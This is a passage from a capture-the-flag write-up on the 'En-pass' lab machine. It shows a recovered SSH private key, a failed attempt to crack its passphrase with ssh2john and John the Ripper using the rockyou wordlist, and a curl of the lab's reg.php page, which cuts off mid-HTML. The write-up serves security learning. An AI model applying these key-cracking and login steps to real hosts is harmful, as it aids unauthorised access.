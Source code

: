 Answer: `/web/resources/infoseek/configure/key`


# What is the user flag?

*Hint: The path you get will forbid to see but you can bypass it.*

## SSH private key

The file is a SSH private key.

~~~
$ chmod 600 key
$ ssh -i key sadman@10.10.67.150
~~~

It's password protected, and John fails to crack the password.

~~~
┌──(kali㉿kali)-[/data/En-pass/files]
└─$ /data/src/john/run/ssh2john.py key > ssh.hash                                                             130 ⨯
zsh: no such file or directory: /data/src/john/run/ssh2john.py
                                                                                                                    
┌──(kali㉿kali)-[/data/En-pass/files]
└─$ /data/src/john/run/ssh2john.py key > ssh.hash                                                             127 ⨯
                                                                                                                    
┌──(kali㉿kali)-[/data/En-pass/files]
└─$ /data/src/john/run/john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 DONE (2021-05-12 16:02) 0g/s 2716Kp/s 2716Kc/s 2716KC/sa6_123..*7¡Vamos!
~~~

## The reg.php page

Let's continue with the other resources found previously. The `/reg.php` page is a challenge, and the PHP source code is actually revealed:

```php
┌──(kali㉿kali)-[/data/En-pass/files]
└─$ curl -s http://10.10.67.150:8001/reg.php | tr -s '\n'                                                       1 ⨯

<!DOCTYPE html>
<html>
<head>
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>En-Pass</title>

[REDACTED]

</head>
<body>
<img src="sau.jpg" alt="sau">
<h1>EN-PASS</h1>
<div  id="container">
  <form method="POST" action="/reg.php">
   
```
